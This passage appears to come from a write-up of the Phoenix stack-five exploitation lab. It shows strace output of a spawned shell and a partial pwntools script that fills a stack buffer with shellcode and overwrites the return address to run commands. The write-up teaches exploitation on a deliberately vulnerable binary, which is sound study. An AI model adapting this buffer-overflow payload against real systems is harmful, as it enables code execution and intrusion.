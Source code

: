 ```console
mmap(0x7ffff7fbc000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1ba000) = 0x7ffff7fbc000
mmap(0x7ffff7fc2000, 13576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7ffff7fc2000
close(3)                                = 0
arch_prctl(ARCH_SET_FS, 0x7ffff7fc7580) = 0
mprotect(0x7ffff7fbc000, 12288, PROT_READ) = 0
mprotect(0x55555576e000, 8192, PROT_READ) = 0
mprotect(0x7ffff7ffc000, 4096, PROT_READ) = 0
munmap(0x7ffff7fc8000, 23717)           = 0
getpid()                                = 1080
rt_sigaction(SIGCHLD, {sa_handler=0x555555564ef0, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7ffff7e3cd60}, NULL, 8) = 0
geteuid()                               = 1000
brk(NULL)                               = 0x555555773000
brk(0x555555794000)                     = 0x555555794000
getppid()                               = 1078
getcwd("/home/user", 4096)              = 11
ioctl(0, TCGETS, 0x7fffffffebc0)        = -1 ENOTTY (Inappropriate ioctl for device)
rt_sigaction(SIGINT, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7ffff7e3cd60}, NULL, 8) = 0
rt_sigaction(SIGQUIT, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7ffff7e3cd60}, NULL, 8) = 0
rt_sigaction(SIGTERM, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGTERM, {sa_handler=SIG_DFL, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7ffff7e3cd60}, NULL, 8) = 0
read(0, "", 8192)                       = 0
exit_group(0)                           = ?
+++ exited with 0 +++
```

Cool, it works! but it seems to teminate without executing commands...
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-five < exploit.bin
Welcome to phoenix/stack-five, brought to you by https://exploit.education
```

That's because we redirect `stdin` from the file `exploit.bin` and as it reaches `EOF` (with no commands to execute) the shell terminates.

`gets()` reads until `EOF` or `\n`, we can seperate our exploit and command with a newline character.

Let's add commands support to our exploit:
```python
from pwn import p64

BUFFER_SIZE = 128
BUFFER_ADDRESS = 0x7fffffffe560
RETURN_ADDRESS = 0x7fffffffe5e8

COMMAND = 'id;echo pwned!\n'

with open('shellcode.bin' ,'rb') as f:
    payload = f.read()

# payload should fit in buffer
assert(len(payload) <= BUFFER_SIZE)

# generate input for filling the buffer
buffer_smash = payload + 'A' * (BUFFER_SIZE - len(payload))
# generate input for filling gap between buffer and return address + overwrite return with buffer address
```